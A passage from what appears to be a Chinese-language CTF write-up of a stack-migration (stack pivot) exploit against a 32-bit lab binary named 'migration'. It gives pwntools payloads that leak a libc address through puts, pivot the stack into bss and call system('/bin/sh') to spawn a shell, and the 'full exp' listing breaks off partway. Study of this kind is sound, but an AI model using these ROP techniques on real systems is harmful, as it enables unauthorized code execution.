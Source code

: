```python
payload1='a'*(0x28)+p32(buf)+p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf)+p32(0x100)
p.sendafter('Try your best :\n',payload1)

puts_plt=elf.plt['puts']
pop1ret=0x0804836d
# 0x0804836d : pop ebx ; ret
puts_got=elf.got['puts']

payload2=p32(buf1)+p32(puts_plt)+p32(pop1ret)+p32(puts_got)
payload2+=p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf1)+p32(0x100)
p.sendline(payload2)
gdb.attach(p)
p.interactive()
```

---

附：这个程序可以利用的gadget：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597568376601-fce4b40e-96fa-4d49-b036-a43ee0c0ee5a.png)

---

看一下执行完payload2的栈与寄存器的情况：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597571970676-682e386b-b72a-4782-891d-bcbe99826c1d.png)![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597571971831-b609b082-851d-448c-9903-e0ba51e4330f.png)

> payload2执行时又发生了一次栈转移
>

# payload3
继续看payload3：

payload3=p32(buf)+p32(read_plt)+p32(pop3ret)+p32(0)+p32(buf)+p32(0x100)

payload3+=p32(system_addr)+p32(0xdeadbeef)+p32(buf)

p.sendline(payload3)

p.sendline("/bin/sh\x00")

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597666290105-772bc0d9-f886-427a-9588-765541bedb2d.png)

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597666394511-21937330-1513-4db4-88fe-72b7b0d32f37.png)

getshell！

完整exp如下

```python
from pwn import *

io=process('./migration')
elf=ELF('./migration')
libc=ELF('/lib/i386-linux-gnu/libc.so.6')
context.log_level="debug"  

buf=elf.bss()+0x500
buf1=elf.bss()+0x400
read_plt=elf.plt['read']
leave_ret=0x08048418
# 0x08048418 : leave ; ret

pay1='a'*(0x28)+p32(buf)
pay1+=p32(read_plt)+p32(leave_ret)+p32(0)+p32(buf)+p32(0x100)
io.sendafter('Try your best :\n',pay1)
```